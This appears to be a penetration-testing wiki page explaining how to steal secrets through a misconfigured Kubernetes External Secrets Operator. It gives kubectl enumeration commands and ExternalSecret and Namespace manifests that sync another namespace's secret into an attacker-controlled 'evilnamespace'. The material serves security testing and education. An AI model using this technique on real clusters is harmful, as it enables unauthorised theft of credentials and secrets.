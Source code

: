 # External Secret Operator

**The original author of this page is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

This page gives some pointers onto how you can achieve to steal secrets from a misconfigured ESO or application which uses ESO to sync its secrets.

## Disclaimer

The technique showed below can only work when certain circumstances are met. For instance, it depends on the requirements needed to allow a secret to be synched on a namespace that you own / compromised. You need to figure it out by yourself.

## Prerequisites

1. A foothold in a kubernetes / openshift cluster with admin privileges on a namespace
2. Read access on at least ExternalSecret at cluster level
3. Figure out if there are any required labels / annotations or group membership needed which allows ESO to sync your secret. If you're lucky, you can freely steal any defined secret.

### Gathering information about existing ClusterSecretStore

Assuming that you have a users which has enough rights to read this resource; start by first listing existing _**ClusterSecretStores**_.

```sh
kubectl get ClusterSecretStore
```

### ExternalSecret enumeration

Let's assume you found a ClusterSecretStore named _**mystore**_. Continue by enumerating its associated externalsecret.

```sh
kubectl get externalsecret -A | grep mystore
```

_This resource is namespace scoped so unless you already know which namespace to look for, add the -A option to look across all namespaces._

You should get a list of defined externalsecret. Let's assume you found an externalsecret object called _**mysecret**_ defined and used by namespace _**mynamespace**_. Gather a bit more information about what kind of secret it holds.

```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```

### Assembling the pieces

From here you can get the name of one or multiple secret names (such as defined in the Secret resource). You will an output similar to:

```yaml
kind: ExternalSecret
metadata:
  annotations:
  ...
  labels:
  ...
spec:
  data:
  - remoteRef:
      conversionStrategy: Default
      decodingStrategy: None
      key: SECRET_KEY
    secretKey: SOME_PASSWORD
    ...
```

So far we got:

- Name a ClusterSecretStore
- Name of an ExternalSecret
- Name of the secret

Now that we have everything we need, you can create an ExternalSecret (and eventually patch/create a new Namespace to comply with prerequisites needed to get your new secret synced ):

```yaml
kind: ExternalSecret
metadata:
  name: myexternalsecret
  namespace: evilnamespace
spec:
  data:
    - remoteRef:
        conversionStrategy: Default
        decodingStrategy: None
        key: SECRET_KEY
      secretKey: SOME_PASSWORD
  refreshInterval: 30s
  secretStoreRef:
    kind: ClusterSecretStore
    name: mystore
  target:
    creationPolicy: Owner
    deletionPolicy: Retain
    name: leaked_secret
```

```yaml
kind: Namespace
metadata:
  annotations:
    required_annotation: value
    other_required_annotation: other_value
  labels:
    required_label: somevalue
    other_required_label: someothervalue
  name: evilnamespace
```

After a few mins, if sync conditions were met, you should be able to view the leaked secret inside your namespace

```sh
kubectl get secret leaked_secret -o yaml
```

## References

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}





